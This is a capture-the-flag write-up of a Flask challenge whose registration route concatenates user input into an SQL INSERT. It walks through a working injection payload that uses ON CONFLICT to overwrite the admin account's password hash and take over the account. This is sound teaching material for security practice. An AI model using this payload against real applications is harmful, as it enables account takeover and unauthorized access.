 **Spooky Query Leaks**

Author: RJCyber

Description: `HELP! A ghost just took over my website and database! Can you get back in?`

The name of the challenge (Spooky Query Leaks) and the description mentioning "database," it can be inferred that the website is vulnerable to SQL injection.

Let's take a look at the source code of the Flask app running on the website.

```py
from flask import Flask, render_template, request, redirect, session, g
from werkzeug.security import generate_password_hash, check_password_hash
import sqlite3

app = Flask(__name__)
app.secret_key = 'REDACTED'

DATABASE = 'challenge.db'

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()
        try:
            cursor.execute(f"INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)}')")
            get_db().commit()
            return redirect('/login')
        except sqlite3.IntegrityError:
            return "Username already taken."

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()

        cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
        user = cursor.fetchone()

        if user and check_password_hash(user['password'], password):
            session['username'] = user['username']
            return redirect('/dashboard')
        else:
            return "Invalid credentials."

    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')

    username = session['username']
    cursor = get_db().cursor()

    if username == 'admin':
        cursor.execute("SELECT flag FROM flags")
        flag = cursor.fetchone()['flag']
        return render_template('dashboard.html', username=username, flag=flag)

    return render_template('dashboard.html', username=username, flag=None)

if __name__ == '__main__':
    app.run(debug=False)
```

The vulnerability lies in `/register` since the other endpoints have parameterized queries. The register endpoint is the only one that uses user input without parameterization, making it vulnerable to SQL injection. However, the injection here involves the following `INSERT` statement: 

`INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)})`

Since we can control the username input, we can try to overwrite the admin user in the database by injecting the INSERT statement. Additionally, the hashing algorithm for the password is known, which allows us to create our own password and hash it using the same function. The `generate_password_hash()` function comes from the `werkzeug.security` python library. 

We can generate our own hash by running this code:

```py
from werkzeug.security import *
print(generate_password_hash('password'))
```

The output hash can then be used for the injection to set a password on the user we register.

`scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61`

So, we can now control the register statement.
`admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61'); -- -`

However...
We cannot overwrite the admin user's password quite yet. For this we need to add `ON CONFLICT` to overwrite the admin entry in the database.

The final payload ends up being:

```
admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61') ON CONFLICT(username) DO UPDATE SET password = "scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61"; -- -
```

This would cause the full query to become:

`INSERT INTO users (username, password) VALUES ('admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61') ON CONFLICT(username) DO UPDATE SET password = "scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61"; -- -', '{generate_password_hash(password)})`

After overwriting the admin password, you can then login with username `admin` and the password set by the payload (`password` in our case).
